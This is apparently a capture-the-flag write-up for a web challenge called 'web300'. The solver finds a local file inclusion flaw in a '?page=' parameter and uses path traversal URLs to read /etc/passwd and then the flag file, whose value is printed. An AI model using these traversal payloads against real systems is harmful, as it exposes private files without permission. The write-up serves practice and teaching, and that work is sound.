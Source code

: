 # web300

## Description
The country of Ubetchaman is at it again. We heard one of their noobie hackers, hackerman, has been storing a bunch of stolen data on this terrible website. Show them your superior 1337 hacker skills and find a way in!

http://44.197.231.105:3023

## Solve
When clicking around on the pages I noticed a `?page=` parameter in the URL followed by the name of the page. This looked like it would be LFI (local file inclusion). The web server is taking this `page` parameter and outputing the contents of the file.

Lets try and grab the flag at http://44.197.231.105:3023/index.php?page=flag.txt

Nope! We need to look a little further.

Entering http://44.197.231.105:3023/index.php?page=../../../etc/passwd as the URL moves up into the root directory and int `/etc/passwd` showing us a list of users. The `hackerman` user looks interesting... lets see if his home directory has the flag.

Visiting http://44.197.231.105:3023/index.php?page=../../../home/hackerman/flag.txt gives us the flag.

## Flag
```
MCA{c20643d936f1c1b373c530b94ce224176d24d1de}
```
